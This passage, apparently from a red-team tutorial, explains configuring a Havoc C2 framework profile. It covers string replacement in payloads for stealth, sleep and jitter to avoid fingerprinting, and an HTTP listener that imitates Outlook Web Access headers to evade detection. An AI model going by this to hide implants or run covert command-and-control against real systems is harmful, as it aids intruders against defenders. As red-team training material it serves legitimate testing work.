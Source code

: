 ```bash
```

Save the new profile and restart the server. Generate the payload and run strings again, you should see a difference and that it removed the targeted strings to replace. I highly recommend adding more replacestrings, similar to WhiteKnight Labs’ blog, to add a little bit of stealth.

![alt text](img/image2.png)

Another thing to do when you edit the profile or change something in the source code, is to always generate a new payload, execute it on a windows test server and ensure that it still works.

### sleep and jitter
If you have notice we have sleep and jitter on the profile when we generate it. [havoc profile documentation](https://havocframework.com/docs/profiles)

| Field | Description 
| -------- | -------- 
| Sleep | The baseline time that the agent/implant waits between contacting the C2 server. For example if sleep is set to 60, the Demon will check in every 60 seconds.
| Jitter | A randomization percentage applied to the sleep interval, to avoid predictable agent/implant patterns. When the sleep is set to 60 and the jitter to 20, the actual check in interval will randomly vary between 48 and 72 seconds (20%), making it harder for defenders to fingerprint fixed agent/implant intervals.


## Listener block

The generated profile, gives the Listener block below. There's a lot of parameters here but generally some of it are self explanatory. Another thing that I will highly suggest is to change the values of the headers like the cookies, response and etc. As it may been signatured and could be easily detected. It's ideally good to always create your own or replicate an actualy request/response.

```bash
Listeners { #listeners block
    Http { # port 80
        Name         = "Agent Listener - HTTP"
        KillDate     = "2026-03-28 08:14:20"
        WorkingHours = "0:00-23:59"
        Hosts        =  ["192.168.56.101"]
        HostBind     = "0.0.0.0"
        HostRotation = "round-robin"
        PortBind     =  80
        Secure       =  false
        UserAgent    = "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"
        Uris         =  ["/owa/", "/OWA/"]
        Headers      =  ["Accept: */*", "Cookie: MicrosoftApplicationsTelemetryDeviceId=95c18d8-4dce9854;ClientId=1C0F6C5D910F9;MSPAuth=3EkAjDKjI;xid=730bf7;wla42=ZG0yMzA2KjEs"]

        Response { # response of the server
            Headers  = ["Cache-Control: no-cache", "Pragma: no-cache", "Content-Type: text/html; charset=utf-8", "Server: Microsoft-IIS/10.0", "request-id: 6cfcf35d-0680-4853-98c4-b16723708fc9", "X-CalculatedBETarget: BY2PR06MB549.namprd06.prod.outlook.com", "X-Content-Type-Options: nosniff", "X-OWA-Version: 15.1.1240.20", "X-OWA-OWSVersion: V2017_06_15", "X-OWA-MinimumSupportedOWSVersion: V2_6", "X-Frame-Options: SAMEORIGIN", "X-DiagInfo: BY2PR06MB549", "X-UA-Compatible: IE=EmulateIE7", "X-Powered-By: ASP.NET", "X-FEServer: CY4PR02CA0010", "Connection: close"]
        }
    }

```